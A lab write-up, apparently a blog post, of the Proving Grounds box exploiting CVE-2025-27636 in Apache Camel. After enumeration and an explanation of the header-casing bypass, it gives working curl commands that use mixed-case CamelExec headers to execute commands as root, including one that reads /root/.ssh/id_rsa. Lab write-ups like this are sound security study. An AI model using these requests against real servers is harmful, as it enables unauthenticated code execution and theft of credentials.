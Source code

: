 ```yaml
---
layout: post
title: PG Practice CVE-2025-27636
---
```


PG-Practice: CVE-2025-27636 (Apache Camel Header Casing RCE)

## Service Enumeration

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:5a:a9:66:65:3e:d0:b8:9d:a5:16:8c:e8:16:37:e2 (ECDSA)
|_  256 9b:2d:1d:f8:13:74:ce:96:82:4e:19:35:f9:7e:1b:68 (ED25519)
80/tcp open  http    Jetty 12.0.16
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE CONNECT PATCH
|_http-server-header: Jetty(12.0.16)
|_http-title: CamelHead - Desert Transport Solutions<LINES>...
  -C, --filter-status <STATUS_CODE>...        Filter out status codes (deny
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

![enum1](/assets/images/cve_2025_27636/enum1.png)

![enum2](/assets/images/cve_2025_27636/enum2.png)

The target is running **Apache Camel v4.1.0**, as is evident from the footer of the web page.  
Apache Camel is an integration framework that routes messages between components using Enterprise Integration Patterns (EIPs).

Tech stack 
![enum3](/assets/images/cve_2025_27636/enum3.png)

The target web service is **Jetty 12.0.16**. Jetty is a Java-based web server and servlet container.

Accessing the */command-center* endpoint returns a plain response: *root*, suggesting potential server-side command execution or misconfiguration .

![enum4](/assets/images/cve_2025_27636/enum4.png)

Directory brute forcing
![enum5](/assets/images/cve_2025_27636/enum5.png)
Directory brute forcing revealed only a single endpoint */command-center*

## Vulnerability Identification

After researching on the specific version, i found a public Poc

`https://github.com/akamai/CVE-2025-27636-Apache-Camel-PoC`

Apache Camel's **exec:** component enables command execution through HTTP headers such as **CamelExecCommandExecutable**. However, due to **improper normalization of header casing**, filters intended to block dangerous headers can be bypassed by using mixed-case variants like **CAMelExecCommandExecUtable**. This behavior allows unauthenticated attackers to achieve Remote Code Execution (RCE) by supplying arbitrary commands

The header used for achieving RCE

|Name                            | Description                                                                            |Type    |                             
|--------------------------------|----------------------------------------------------------------------------------------|--------|
| **CamelExecCommandExecutable** | The name of the system command that will be executed. Overrides executable in the URI. | String |


## Exploitation
![exp1](/assets/images/cve_2025_27636/exp1.png)
the process is running as root
Initially, argument passing didn’t work until I reviewed Camel’s documentation.

|Name                      | Description                                                                            |Type    |                             
|--------------------------|----------------------------------------------------------------------------------------|--------|
| **CamelExecCommandArgs** | Command-line argument(s) to pass to the executed process. The argument(s) is/are used literally - no quoting is applied. Overrides any existing args in the URI. | List or String |
| ------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------- |

reading the proof.txt
```bash
curl http://192.168.137.120/command-center -H "CAMelExecCommandExecUtable: cat" -H "camElExeccomMandArGs: /root/proof.txt"
```

## To escalate further

```bash
curl http://192.168.137.120/command-center -H "CAMelExecCommandExecUtable: cat" -H "camElExeccomMandArGs: /root/.ssh/id_rsa
```

![post1](/assets/images/cve_2025_27636/post1.png)
![post2](/assets/images/cve_2025_27636/post2.png)

## Mitigation
- Upgrade apache to the latest version
- Implement strict firewall rules
- Strict input sanitization and Header Validation

## Reference
- [Github POC](https://github.com/akamai/CVE-2025-27636-Apache-Camel-PoC)
- [Apache Documentation](https://camel.apache.org/components/4.10.x/exec-component.html#_message_headers)
